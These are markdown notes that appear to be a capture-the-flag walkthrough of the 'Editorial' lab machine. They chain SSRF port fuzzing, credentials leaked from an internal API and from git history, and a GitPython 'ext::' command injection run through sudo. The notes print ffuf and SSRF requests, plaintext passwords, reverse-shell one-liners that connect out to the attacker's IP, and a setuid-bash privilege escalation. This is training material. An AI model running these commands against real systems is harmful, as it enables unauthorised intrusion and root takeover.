 - nmap revealed http and tcp port.
	- http running nginx
- vi /etc/hosts to add editorial.htb
- tried dirbuster, dirsearch and gobuster but got nothing.
- we see a place for user input and on burp suite we catch the request.
	- can upload file but it does nothing (returns an image)
	- but we see a location to enter a url
		- so with netcat listening on a port we put our ip and port there
		- we get a response so we know it is vulnerable to server side request forgery (SSRF)
		- we enumerate the localhost port 80 to see if any local websites. we dont get much but we can brute force and check
		- send to intrude and select the IP region and use /usr/share/seclists/DNS/Discovery/Infrastructure/common http proxies wordlist.
		- we notice one response that is slightly different a returns something other than the image
		- alternatively (and also burp suite is slower for this brute force) we can use ffuf.
		- copy the request with the ip and the port number listed like this :
```
127.0.0.1:FUZZ
```

- and pass the command :

```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "jpeg" # or -fs 62 since that was the default size
```

- we get a file which when passing file command we know its a JSON file. Can use jq to make it more readable

```
cat <file_name> | jq .
```

- this file shos different endpoints which we can try to access with our SSRF. We end up finding another file in this endpoint:
```
/api/latest/metadata/messages/authors
```

- so we added this url in our SSRF exploit :

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

- we receive a file:
- we find the credentials of dev in the output

```
Username: dev
Password: dev080217_devAPI!@
```

- can ssh into machine with this credentials and get user flag.

## Lateral Movement
- looking at the file where user flag is we see a folder apps.
	- looking into it and passing ls -al we see a hidden .git repository
	- can enumerate with git

```
git status # shows some files were deleted
git logs
```

- alternatively I read the file logs and noted a "Downgrading prod to dev"
	- i also check /etc/passwd for prod and see he is a user.
	- furthermore since sudo -l didnt work maybe this prod user could have something we could run as root to get root access
- pased git show on the commit id in the log to see what was changed and from there we find prods credentials were deleted.

```
Username: prod
Password: 080217_Producti0n_2023!@
```

- logging into prod with su, we check sudo -l to see there is a command we could run:
```
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
- we also see the env_reset and secure path has been set so the user is quite secure
- we read the file clone_prod_change.py:

```
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
	
 - we see the intput argument to pass some command.
	- the main thing to catch is 

 ```
from git import Repo
```

- on checking for exploits we find one with the following exploit:

```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
- we see that when 'ext::sh -c' is passed we can  get some kind of RCE.
	- on passing this command as an argument we find that it created /tmp/pwned file showing that this is being exploited. I didn't do this but you can do to test.
	- we attempt to input our IP and port to get a reverse shell. 

 ```
echo "bash -i >& /dev/tcp/10.10.14.25/9998 0>&1" >/tmp/pwned
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/pwned'
```
- while i listened on the port
- **alternatively you can pass the command directly instead of creating /tmp/pwned**

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% -c% "bash% -i% >&% /dev/tcp/10.10.14.25/9999% 0>&1"'
```

- we input this command as exploit but add % wherever there is a space:

```
ash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'
```
	
 - **IPPSec Alternate**
	- we find the location of bash with which bash command and copy it to /tmp
	- we then use our exploit to give it root ownership and add a setuid bit so we can execute it.

```
which bash #/usr/bin/bash
cp /usr/bin/bash /tmp
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chown% root:root% /tmp/bash'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 4755% /tmp/bash' # gives it the setuid bit
```
		
  - finally we privilege escalate with :

```
/tmp/bash -p # without -p it won't give root shell as bash inbuilt security lowers privileges of setuid executables unless specified
```
	
 - we gain root access

-------
## Python code to brute force ports
- code:

```
#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
f.write(b'')
for port in range(1, 65535):
with open("a", 'rb') as file:
data_post = {"bookurl": f"http://127.0.0.1:{port}"}
data_file = {"bookfile": file}
try:
r = requests.post("http://editorial.htb/upload-cover",
files=data_file, data=data_post)
if not r.text.strip().endswith('.jpeg'):
print(f"{port} --- {r.text}")
except requests.RequestException as e:
print(f"Error on port {port}: {e}")
```



